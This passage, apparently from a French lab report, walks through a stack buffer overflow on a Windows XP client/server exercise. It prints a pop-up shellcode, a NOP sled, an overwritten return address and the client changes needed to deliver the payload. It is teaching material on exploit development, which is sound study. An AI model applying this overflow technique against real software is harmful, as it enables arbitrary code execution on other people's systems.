\section{Attack program: vulnerability exploitation}
\subsection{Test your client}
Après avoir utilisé les commandes présentées dans le point \ref{compile} (\textit{Set BUFFER\_OVERFLOW\_CHECKS=0} et \textit{Build /ZCc}) pour compiler le programme client, nous pouvons le lancer.\\
Nous pouvons remarquer qu'en envoyant peu de données ou beaucoup de données, nous obtenons le même résultat : toutes les données envoyées du client au serveur sont reçues et ainsi copiées dans le buffer.
\begin{figure}[H]
  \centering
  \begin{minipage}{.45\textwidth}
    \centering
    
\includegraphics[width=.9\textwidth]{img/51.JPG}
    \captionsetup{justification=centering}
    \caption{Code client avec peu d'information}
  \end{minipage}
  \begin{minipage}{.45\textwidth}
    
\includegraphics[width=.9\textwidth]{img/52.JPG}
    \captionsetup{justification=centering}
    \caption{Données reçues dans par le serveur}
  \end{minipage}
\end{figure}

\begin{figure}[H]
  \centering
  \begin{minipage}{.45\textwidth}
    
\includegraphics[width=.9\textwidth]{img/50.JPG}
    \captionsetup{justification=centering}
    \caption{Code client avec beaucoup d'information}
  \end{minipage}
  \begin{minipage}{.45\textwidth}
    
\includegraphics[width=.9\textwidth]{img/53.JPG}
    \captionsetup{justification=centering}
    \caption{Données reçues dans par le serveur}
  \end{minipage}
\end{figure}
Ainsi, on peut voir que peu importe la taille de la donnée envoyée, cette dernière est transmise au serveur.\\
Cependant, doté client, nous pouvons retrouver l'erreur 10054 une fois que la transmission est finie. Cette dernière correspond en réalité au fait que le code serveur ne ferme pas proprement la connexion. L'erreur 10054 pour les \textit{Winsockets}, erreur \textit{WSAECONNRESET} signifie que la connexion à été réinitialisée par le serveur. Or dans le code serveur, il n'y a nul part une fermeture de socket. La connexion se fait alors automatiquement fermée lors de l’arrêt du programme.
\subsection{Design your shellcode}
Afin de concevoir le shellcode, nous devons écrire sur 1488 octets. Nous utiliserons ici un shellcode trouvé sur internet permettant d'ouvrir une pop-up. Ce shellcode particulier a été conçu pour les systèmes Windows XP Pro x86 uniquement. Sa taille est de 16 octets et est de la forme suivante :
\begin{verbatim}
  \xB9\x38\xDD\x82\x7C\x33\xC0\xBB\xD8\x0A\x86\x7C\x51\x50\xFF\xd3
\end{verbatim}
Nous voulons ici réécrire sur la valeur de ret l'adresse 0006F9A4. Cette adresse correspond au début de l'adresse du buffer cible, celui qui contiendra notre shellcode. Nous allons donc écrire cette adresse à la suite du shellcode :
\begin{verbatim}
 \xB9\x38\xDD\x82\x7C\x33\xC0\xBB\xD8\x0A\x86\x7C\x51\x50\xFF\xd3
 \xa4\xf9\x06\x00
\end{verbatim}
Cependant, pour que notre code puisse dépasser la taille du buffer et ainsi écrire sur la valeur de \textit{Saved eip}, nous devons avoir un code de 1488 octets. Pour cela, nous rajoutons 1471 octets de \textit{nop}(\textbackslash\verb|x90|). Ainsi, nous obtenons le shellcode final suivant :
\begin{verbatim}
 \x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90
 \x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90
 \x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90
 \x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90
 \x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90
 \x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90
                               .
                               .
                               .
 \x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90
 \x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90
 \x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90
 \x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90
 \x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\xB9\x38\xDD
 \x82\x7C\x33\xC0\xBB\xD8\x0A\x86\x7C\x51\x50\xFF\xd3\xa4\xf9\x06
 \x00
\end{verbatim}
Avec 1471 fois l'octet \textit{nop}.
\subsection{Release the power!}
Une fois notre shellcode incorporé dans le code client, nous pouvons l'envoyer au serveur. Cependant, cela ne fonctionne pas et nous pouvons voir que seulement 1487 octets ont été envoyés. Cela est en effet du, dans le code client, à l'utilisation de la fonction \textit{strlen} dans l'utilisation de la fonction \textit{send} :
\begin{verbatim}
  iResult = send( ConnectSocket, sendbuf, (int)strlen(sendbuf), 0 );
\end{verbatim}
En effet cette fonction, a la caractéristique de ne pas prendre en compte le caractère de fin de chaîne (\textbackslash\verb|x00|). Ainsi, seuls 1487 octets sont envoyés.\\
Pour palier à ce problème, nous pouvons, dans le code client, changer la ligne comprenant la fonction par :
\begin{verbatim}
  iResult = send( ConnectSocket, sendbuf, (int)strlen(sendbuf)+1, 0 );
\end{verbatim}
\subsection{Attack improvement}